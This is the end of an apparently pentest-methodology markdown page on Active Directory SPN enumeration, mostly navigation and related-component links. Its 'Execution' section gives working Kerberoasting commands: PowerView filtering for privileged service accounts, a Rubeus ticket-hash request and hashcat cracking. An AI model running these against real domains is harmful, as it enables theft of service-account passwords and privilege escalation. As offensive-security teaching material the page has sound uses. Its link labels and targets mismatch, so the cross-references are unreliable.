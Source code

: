 
**🎯 Remember**: SPN enumeration is like reading a city's business directory - you need to know what services exist and where they're located before you can plan your attack strategy!**

---

## 📚 **NEXT STEPS**

After mastering SPN Enumeration, continue with:
- **Delegation Abuse**: See [15_Kerberos_Delegation_Abuse.md](./25_Kerberos_Delegation_Abuse.md)
- **Advanced Attacks**: See [16_Kerberos_Advanced_Attacks.md](./26_Kerberos_Advanced_Attacks.md)
- **Basic Kerberos**: See [13_Kerberos_Basic_Enumeration.md](./23_Kerberos_Basic_Enumeration.md)

---

## ⚔️ Execution

### Targeted Kerberoasting from SPNs
```powershell
# Filter high-value SPNs
Get-DomainUser -SPN -Properties memberof | Where-Object { $_.memberof -like '*Domain Admins*' -or $_.memberof -like '*SQL*' } |
  Select samaccountname,serviceprincipalname

# Request only selected SPNs (Rubeus)
.\Rubeus.exe kerberoast /user:websvc /outfile:websvc.hash

# Crack
hashcat -m 13100 websvc.hash wordlist.txt --force
```
- Use this after mapping SPNs here; see basics in `13_Kerberos_Basic_Enumeration.md`; advanced OPSEC/detection in `16_Kerberos_Advanced_Attacks.md`, `11_Detection_Blue_Team.md`.


---

[Prev: 23_Kerberos_Basic_Enumeration.md](./23_Kerberos_Basic_Enumeration.md) | [Up: Index](./00_Enumeration_Index.md) | [Hub](./00_Methodology_Hub.md) | [Next: 25_Kerberos_Delegation_Abuse.md](./25_Kerberos_Delegation_Abuse.md)

---

## 🔗 **RELATED ACTIVE DIRECTORY COMPONENTS**

### **🎯 Service Principal Components**
- **[Kerberos](../02_Active_Directory_Components/16_Kerberos.md)**: SPN authentication and ticket issuance
- **[User Accounts](../02_Active_Directory_Components/17_User_Accounts.md)**: Service accounts with SPNs
- **[Schema](../02_Active_Directory_Components/11_Schema.md)**: SPN object attributes and properties
